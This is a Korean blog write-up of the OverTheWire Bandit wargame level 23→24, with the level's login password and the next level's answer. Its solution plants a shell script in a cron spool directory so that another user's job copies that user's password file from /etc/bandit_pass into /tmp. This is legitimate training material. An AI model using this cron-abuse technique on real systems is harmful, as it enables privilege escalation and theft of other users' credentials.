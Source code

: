 ```yaml
---
layout: post
title: "[Bandit] Level 23 → 24 풀이"
date: 2025-07-05 09:04:00 +0900
categories: bandit
tags: [overthewire, bandit, linux, cron, shell-script]
---
```


> 📝 **공식 문제 (Level 23 → 24)**
>
> **Level Goal**
> A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.
>
> **Commands you may need to solve this level**
> `cron`, `crontab`, `cronjob`

---

## 🔐 Level Info

- **접속 정보**
  - 사용자: `bandit23`
  - 비밀번호: `YkH2SGAfH11sQ17GvD2sXnoP9i4vGg02`
  
- **접속 명령어**

  ```bash
ssh bandit23@bandit.labs.overthewire.org -p 2220
  ```

---

## 🧪 풀이 과정

1.  `/etc/cron.d/cronjob_bandit24` 확인. `/var/spool/bandit24` 디렉토리의 모든 실행 파일을 1분마다 실행하는 것을 파악
2.  `/tmp` 디렉토리에 다음 레벨의 비밀번호를 읽어 다른 `/tmp` 파일에 저장하는 쉘 스크립트 작성
3.  작성한 스크립트를 `/var/spool/bandit24` 디렉토리에 복사하고 실행 권한 부여
4.  1분 정도 기다린 후, 결과가 저장된 `/tmp` 파일의 내용을 확인

```bash
# 스크립트 작성
bandit23@bandit:~$ echo '#!/bin/sh' > /tmp/hamap.sh
bandit23@bandit:~$ echo 'cat /etc/bandit_pass/bandit24 > /tmp/hamap_pass' >> /tmp/hamap.sh

# 스크립트 복사 및 권한 부여
bandit23@bandit:~$ cp /tmp/hamap.sh /var/spool/bandit24/
bandit23@bandit:~$ chmod +x /var/spool/bandit24/hamap.sh

# 결과 확인
bandit23@bandit:~$ sleep 60; cat /tmp/hamap_pass
```

---

## 🎯 결과

<details markdown="1">
<summary>👀 클릭하여 비밀번호 확인하기</summary>

```bash
D2J41fb8mpcr9hjsf32ECf2d012eK2g9
```

</details>

---

##💡 배운 점
1. 쉘 스크립트 작성: 원하는 명령어들을 파일로 만들어 순차적으로 실행할 수 있음.
2. chmod +x [파일명]: 파일에 실행 권한을 부여함.

---
